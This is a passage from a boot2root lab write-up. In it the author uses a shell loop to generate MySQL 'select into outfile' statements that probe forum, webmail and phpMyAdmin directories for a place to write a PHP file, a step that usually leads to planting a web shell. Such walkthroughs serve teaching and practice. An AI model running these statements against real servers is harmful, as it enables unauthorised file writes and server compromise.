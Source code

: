 Now, I'm going to try all of them to see if we can write somewhere. Instead of trying each one
separately.

```sh
 for line in $(cat paths.txt); do echo select \"test\" into outfile \"/var/www/$line/injected_file.php\"";"; done
```

where paths.txt just the previous output

```
select "test" into outfile "/var/www/forum/injected_file.php";
select "test" into outfile "/var/www/webmail/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/injected_file.php";
select "test" into outfile "/var/www/server-status/injected_file.php";
select "test" into outfile "/var/www/forum/images/injected_file.php";
select "test" into outfile "/var/www/forum/themes/injected_file.php";
select "test" into outfile "/var/www/forum/modules/injected_file.php";
select "test" into outfile "/var/www/forum/includes/injected_file.php";
select "test" into outfile "/var/www/forum/update/injected_file.php";
select "test" into outfile "/var/www/forum/js/injected_file.php";
select "test" into outfile "/var/www/forum/lang/injected_file.php";
select "test" into outfile "/var/www/forum/config/injected_file.php";
select "test" into outfile "/var/www/forum/backup/injected_file.php";
select "test" into outfile "/var/www/forum//injected_file.php";
select "test" into outfile "/var/www/forum/index/injected_file.php";
select "test" into outfile "/var/www/forum//injected_file.php";
select "test" into outfile "/var/www/forum/templates_c/injected_file.php";
select "test" into outfile "/var/www/webmail/help/injected_file.php";
select "test" into outfile "/var/www/webmail//injected_file.php";
select "test" into outfile "/var/www/webmail/images/injected_file.php";
select "test" into outfile "/var/www/webmail/themes/injected_file.php";
select "test" into outfile "/var/www/webmail/plugins/injected_file.php";
select "test" into outfile "/var/www/webmail/src/injected_file.php";
select "test" into outfile "/var/www/webmail/include/injected_file.php";
select "test" into outfile "/var/www/webmail/config/injected_file.php";
select "test" into outfile "/var/www/webmail/class/injected_file.php";
select "test" into outfile "/var/www/webmail/functions/injected_file.php";
select "test" into outfile "/var/www/webmail/po/injected_file.php";
select "test" into outfile "/var/www/webmail/locale/injected_file.php";
select "test" into outfile "/var/www/webmail//injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/themes/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/js/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/libraries/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/setup/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/locale/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin//injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/pmd/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin//injected_file.php";
select "test" into outfile "/var/www///injected_file.php";
```

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/36.png)
